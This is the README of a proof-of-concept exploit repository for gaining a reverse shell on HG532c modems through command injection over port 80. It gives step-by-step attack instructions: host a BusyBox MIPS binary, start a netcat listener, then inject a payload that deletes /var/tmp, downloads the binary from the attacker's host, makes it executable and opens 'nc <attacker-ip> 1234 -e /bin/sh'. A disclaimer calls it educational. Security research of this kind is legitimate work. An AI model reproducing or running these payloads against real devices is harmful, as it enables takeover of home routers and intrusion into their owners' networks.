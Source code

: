 
# RCE-HG532c

This repository contains a proof of concept for gaining a reverse shell on vulnerable **HG532c modems** through a command injection exploit. The target devices do not have Netcat included in their default BusyBox installation. This method downloads a custom BusyBox binary (which includes Netcat) to the modem and uses it to establish a reverse shell.
This is a web exploit though 80 port using python requests module. This vulnerability was discovered through firmware
analysis. The firmware was extracted with Bus Pirate v4 with hardware hacking techniques.

![alt text](image.png)
![2-buspirateconnection](https://github.com/user-attachments/assets/a88f14ab-96af-41f2-8d37-0ba7587a7249)


## Disclaimer

This project is intended for educational purposes only and should not be used in any illegal activities. Always have permission from the device owner before attempting any exploits. The repository authors are not responsible for any misuse of this software.

## Exploit Steps

The following steps outline how to execute the reverse shell exploit on a vulnerable HG532c modem:

### 1. Start a Python Web Server

First, you need to host the `busybox-mips` binary on a Python web server so the vulnerable modem can download it.

In the directory where you have `busybox-mips`:
```bash
python3 -m http.server 8000
```

### 2. Start a Netcat Listener

On the attacker's machine, set up a Netcat listener to catch the reverse shell connection. Replace `1234` with the desired port:
```bash
nc -lvnp 1234
```

### 3. PAYLOAD

Use the following payload to download `busybox-mips` to the modem, grant it execution permissions, and use it to open a reverse shell back to the attacker's machine:

```bash
# Clean up the /var/tmp directory and create a new one
rm -rf /var/tmp
mkdir /var/tmp

# Download busybox-mips from the attacker's machine
wget -g -v -r http://<attacker-ip>:8000/busybox-mips -P /var/tmp

# Grant execution permissions to busybox-mips
chmod +x /var/tmp/busybox-mips

# Start a reverse shell from the modem to the attacker's machine
/var/tmp/busybox-mips nc <attacker-ip> 1234 -e /bin/sh
```

Replace `<attacker-ip>` with the actual IP address of the attacker's machine.

### Notes

- **BusyBox MIPS Binary**: Make sure that the `busybox-mips` binary includes the Netcat utility.
- **Reverse Shell**: The reverse shell will connect back to the attacker's machine on the specified port (`1234` in this example).

![alt text](image-1.png)

## Requirements

- Python 3 (for hosting the web server)
- Netcat (for catching the reverse shell)
- A vulnerable HG532c modem that allows command injection

## Legal Disclaimer

This software is provided for educational purposes only. The author is not responsible for any illegal use of this software. You are responsible for ensuring that you have permission to exploit any device.
